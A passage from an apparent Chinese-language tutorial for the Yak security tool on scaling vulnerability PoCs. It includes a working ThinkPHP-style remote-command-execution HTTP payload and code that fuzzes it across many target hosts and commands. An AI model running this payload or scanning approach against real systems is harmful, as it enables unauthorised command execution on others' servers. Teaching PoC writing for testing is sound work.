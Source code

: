```yaml
        condition: and
      - type: status
        status:
          - 200
```

:::tip
如果大家想要寻找如何编写一个 Nuclei Yaml PoC，[教程在这里](https://nuclei.projectdiscovery.io/templating-guide/)
:::

## 漏洞 PoC `规模化/武器化`

我们通过上面的简单教程，学会了如何编写一个 Yak/Nuclei 版本的 PoC，但是我们发现，上述的代码其实并不是特别可用。主要原因有下面几个：

1. 我们的目标特别多怎么办？ 
1. 我们有些参数需要动态化怎么办？
1. 用户如果只输入了一个盲目的网站 IP + 端口怎么办？
1. ...

我们发现，如果想要让这个 PoC 尽可能真的能扫到目标，其实我们要做的事情，也并不少。


### 回顾一下我们在 `fuzz` 中学习的技能

```yak
fReq, err := fuzz.HTTPRequest(`
POST /index.php?s=captcha HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
`)
if err != nil {
    die(err)
}
```

当我们构建了一个可供 Fuzz 的请求之后，我们很容易对这个请求进行变形：

1. 如果要调整他的扫描目标，我们就 `.FuzzHTTPHeader("Host", targets)` 替换掉 Host。
1. 如果说我们要调整 Payload，就 `.FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"])` 更新想要执行的命令。

```yak
rsp, err := fReq.FuzzHTTPHeader("Host", sprintf("{{net(%v)}}:{{port(%v)}}", host, port)).FuzzPostParams("server[REQUEST_METHOD]", ["id", "uname"]).Exec()
die(err)
```

所以，我们对这个 Payload 进行了 Fuzz，同时替换了一些关键的参数

:::tip

这么做的好处不言而喻，我们使用 `fuzz` 模块，可以做到尽量少修改 PoC 源码的情况下，外部修改请求参数从而达到修改最终发出的数据包的目的。
